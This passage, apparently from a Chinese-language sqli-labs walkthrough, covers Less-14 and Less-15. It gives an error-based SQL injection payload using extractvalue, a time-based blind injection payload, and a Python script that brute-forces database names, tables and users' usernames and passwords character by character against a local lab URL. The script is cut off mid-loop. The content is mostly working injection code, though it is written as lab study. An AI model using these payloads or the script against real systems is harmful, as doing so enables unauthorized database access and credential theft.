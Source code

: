 ![25](/medias/sqli-labs/25.png)

## Less-14

在这里突然发现会报错，试试报错注入

`updatexml`、`extractvalue`函数都可以正常报错注入

```sql
uname=0' or extractvalue(1,concat(0x7e,database(),0x7e))#
```

![26](/medias/sqli-labs/26.png)

`mysql_error()`放出来了？那上面几题是不是也能报错注入？我去试试☝🤓

![27](/medias/sqli-labs/27.png)

## Less-15

我测，这里什么提示、回显都没有，报错也没有。试试时间盲注

在传入这个payload时，页面长时间加载，说明存在时间盲注，语法也对上了

```sql
passwd=1&submit=Submit&uname=1' or if(1=1,sleep(5),sleep(5))#
```

我入

::: details
```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-15/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        data = {
            "uname" : "1",
            "passwd" : "1", 
            "submit" : "Submit"
        }
        # 爆库
        # data['uname'] = "1' or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        # 爆表
        # data['uname'] = "1' or if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        # 爆字段
        data['uname'] = "1' or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        # 爆数据
        # data['uname'] = "1' or if((substr((select group_concat(username,password) from users)," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        start = time.time()
        resp = requests.post(url,data=data)
        # print(data['uname'])
        # print(resp.text)
```
